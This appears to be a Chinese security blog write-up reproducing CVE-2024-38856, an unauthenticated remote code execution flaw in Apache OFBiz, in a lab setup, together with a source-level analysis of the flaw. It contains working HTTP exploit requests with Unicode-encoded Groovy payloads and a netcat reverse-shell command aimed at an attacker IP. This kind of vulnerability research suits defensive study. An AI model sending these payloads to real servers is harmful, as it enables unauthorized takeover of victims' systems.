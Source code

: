 #  CVE-2024-38856：Apache OFBiz远程代码执行漏洞   
 宁云志科技   2024-08-23 16:08  
  
>   
> 关注我们❤️，添加星标🌟，一起学安全！作者：hexixi@Timeline Sec 本文字数：3813阅读时长：2～4mins声明：仅供学习参考使用，请勿用作违法用途，否则后果自负  
  
## 0x01 简介  
  
Apache OFBiz  
是一个开源 ERP 系统，可帮助企业自动化和集成会计、人力资源、客户关系管理、订单管理、制造和电子商务等各种流程。使用Java语言开发，基于Java企业版（Java EE）的技术栈，包括Java Servlet、JavaServer Pages（JSP）、Java数据库连接（JDBC）等。  
## 0x02 漏洞概述  
  
**漏洞编号：CVE-2024-38856**  
  
ControlServlet和RequestHandler函数，在处理请求中存在授权错误，导致未经身份验证的远程攻击者通过构造特殊URL来覆盖最终的渲染视图，从而执行任意代码。  
## 0x03 影响版本  
  
Apache OFBiz  <=  18.12.14  
## 0x04 环境搭建  
  
https://github.com/apache/ofbiz-framework/releases/tag/release18.12.14  
  
在官网中下载ofbiz，idea打开，构建  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtN9GXYrVBE3oKOBrAViaiadGoI3r6BlblmBZcHf4PgkqZAaiaR0wYFIhjg/640?wx_fmt=png&from=appmsg "")  
  
在ofbiz-framework-release18.12.14\framework\security\config\security.properties里添加私有IP地址（方便攻击）  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYt5huKZF4zPncicpSD0e4wOxENeaI1E6ibtyuiaf36nE2Zylicwz6txWjFFw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtVkHTvibxmRcFxSe3Fsib4c9p3DBddoIIqRyUFkyIJroucwCkVpIhwOaA/640?wx_fmt=png&from=appmsg "")  
  
运行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtXC458k6iby63AYu0ibicppOJImiaLRG1h8x0u0LbZyNgS0HWwrliaicV3wfw/640?wx_fmt=png&from=appmsg "")  
  
访问https://192.168.56.1:8443/webtools/control/main/  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYt2RtYFqZTXlJRs0HwV5jnTx6qibXt6Lpr48c86ZQ7MbXLCTWvstMGib1g/640?wx_fmt=png&from=appmsg "")  
## 0x05 漏洞复现  
```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: 192.168.56.1:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 272

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u0063\u0061\u006c\u0063\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b
```  
  
POST发送的数据编码前  
为：  
  
groovyProgram=throw new Exception('calc'.execute().text);  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtew0aIar7NAaia2rGzVib6ib7eCdQBMOKibqgnO2ofBxWZM530RQRJF6Lkg/640?wx_fmt=png&from=appmsg "")  
  
**反弹shell操作**攻击机打开nc端口  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtzgIia6m816hsDvnmSg4wIqdpN6Vrkb4iaAswrvH1jrCppqAqXz1VW1Bg/640?wx_fmt=png&from=appmsg "")  
  
payload：  
  
throw new Exception('nc 192.168.244.133 4444 -e cmd.exe'.execute().text);   
  
将payload进行unicode编码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtNNXEjU5KL13MnK76AnucIiabLd5UIT0K9iaK4LDPO7nPAxjTgmibG0bnA/640?wx_fmt=png&from=appmsg "")  
```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: 192.168.56.1:8443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 458

groovyProgram=\u0074\u0068\u0072\u006f\u0077\u0020\u006e\u0065\u0077\u0020\u0045\u0078\u0063\u0065\u0070\u0074\u0069\u006f\u006e\u0028\u0027\u006e\u0063\u0020\u0031\u0039\u0032\u002e\u0031\u0036\u0038\u002e\u0032\u0034\u0034\u002e\u0031\u0033\u0033\u0020\u0034\u0034\u0034\u0034\u0020\u002d\u0065\u0020\u0063\u006d\u0064\u002e\u0065\u0078\u0065\u0027\u002e\u0065\u0078\u0065\u0063\u0075\u0074\u0065\u0028\u0029\u002e\u0074\u0065\u0078\u0074\u0029\u003b\u0020

```  
  
成功反弹到shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtiaYabEaJbJqI279boH2vIDzLrnF531npcXFeIOxZCXQ6aCkAJTPf1iaQ/640?wx_fmt=png&from=appmsg "")  
## 0x06 漏洞分析  
  
org.apache.ofbiz.webapp.control.ControlServlet类会处理所有以/control/开头的URL请求。在其类中doPost和doGet方法对环境进行相应的初始化，并调用RequestHandler的doRequest()方法处理请求。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYteEicWpmUExtecnIMjQwadFk8xae0vkibK14FJm3jR9m3HXbBascGlZUg/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYteEicWpmUExtecnIMjQwadFk8xae0vkibK14FJm3jR9m3HXbBascGlZUg/640?wx_fmt=png&from=appmsg "")  
  
requestUri获取了路由配置，再往下看请求  "main" 对应的请求映射集合，并作出处理请求的安全认证。overrideViewUri用于实现视图渲染，查看view类型操作。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtAVKSw0Er4SubxaLMTjvUT8zm3HFRMlRXa21au1BHuXjq0M12ZujD1w/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtpgcZCQlPfey1INH5HY73W3mqB0sWRQ5n33dCgHRib2ttVTmqicFnmRmw/640?wx_fmt=png&from=appmsg "")  
```
if ("view".equals(nextRequestResponse.type)) {
  if (Debug.verboseOn()) Debug.logVerbose("[RequestHandler.doRequest]: Response is a view." + showSessionId(request), module);
                // check for an override view, only used if "success" = eventReturn
       String viewName = (UtilValidate.isNotEmpty(overrideViewUri) && (eventReturn == null || "success".equals(eventReturn))) ? overrideViewUri : nextRequestResponse.value;
       renderView(viewName, requestMap.securityExternalView, request, response, saveName);
       } 

```  
  
viewName的值会有三种情况：  
- 如果 overrideViewUri 不为空，并且 eventReturn 为空或者等于 "success"，则 viewName 的值为 overrideViewUri。  
  
- 如果 overrideViewUri 为空，并且 eventReturn 不为空且不等于 "success"，则 viewName 的值为 nextRequestResponse.value。  
  
- 如果两个条件都不满足，即 overrideViewUri 为空且 eventReturn 为空或者不等于 "success"，则 viewName 的值为 nextRequestResponse.value。  
  
为了达到漏洞利用，首先需要需要requestUri所认定的不鉴权且路由为view类型，调用viewName的值为overrideViewUri，也就是达成条件overrideViewUri存在，而且事件返回为success。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtEBr0ZJROrXAXXPO7Q5vme1ZNU5jZ6shnzGKHba03ibPEpU68xpt02XQ/640?wx_fmt=png&from=appmsg "")  
  
查看webapp/webtools/WEB-INF/controller.xml mian符合上述所说情况  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtLunOlOW3Rj2EV6IP9cs3UyFOPgLNjkK8MH3aR6o2H79V8wFjSuY5vg/640?wx_fmt=png&from=appmsg "")  
  
其次就是找到如何进行rce的利用了，在widget/EntityScreens.xml中的ProgramExport，尝试解析执行/webtools/groovyScripts/entity/ProgramExport.groovy，并且groovyProgram可控。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/VfLUYJEMVshYK4XBBDWZ23z90L11DRYtIQialxX46ia7T81sjdic7kGNZqmoeQgFX1K8t4kZwLAaBKB9laEjMtarA/640?wx_fmt=png&from=appmsg "")  
  
因此整个漏洞的思路就是，在requestUri选择一个可以绕过验证的路由，返回类型为success，为此达到renderView实现带有可利用路由的overrideViewUri。  
## 修复方式  
  
将Apache OFBiz更新至最新版本。  
## 参考链接  
  
https://forum.butian.net/article/524https://www.secrss.com/articles/68838https://cn-sec.com/archives/3037801.html  
## 历史文章  
  
[CVE-2023-51467](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247493478&idx=1&sn=2a232c707b97c00dd318d997ffb55c12&chksm=903ac196a74d4880464618fcaaf52cc51c4b60ceec0088112e52fc9216b27f869221660cd500&scene=21#wechat_redirect)  
  
  
[CVE-2021-26295](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247488170&idx=1&sn=f01215d61a465885b59f0d23696f6cd8&chksm=9039345aa74ebd4c73fda938955d9135e9dd6d68b9ff8982ab454d64e26b33ff3926a8e28726&scene=21#wechat_redirect)  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/VfLUYJEMVshRXmfDUFNGlTrAVB52XIXB6ibko0TibK4p8OGzoAXSoHSXvUwQk6FKTkNIslDL675W0QBOPfWmO6IA/640?wx_fmt=jpeg&from=appmsg "")  
  
  
回复  
【加群】  
进入微信交流群回复  
【SRC群】进入SRC-QQ交流群回复  
【新人】领取新人学习指南资料回复  
【面试】获取渗透测试常见面试题回复  
【合作】获取各类安全项目合作方式回复  
【帮会】付费加入SRC知识库学习回复  
【  
培训】  
获取TimelineSec官方培训课程详情  
  
  
视频号：搜索  
TimelineSec  
  
官方微博：[#小程序://微博/tPbUYdN9EucSD4C]()  
  
  
哔哩哔哩：  
https://space.bilibili.com/52459  
‍1903  
  
  
  
❤  
  
觉得有用就点赞转发！  
  
想看什么欢迎评论区留言～  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OkhKF2m1syrmlAus2fxnsxZBk4oIuTvAVIaL6pKgic5DEa8ynqo44GUwNML3ggkqMpbE1fiaLYvpPzeBrQJCS5bA/640?wx_fmt=png&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
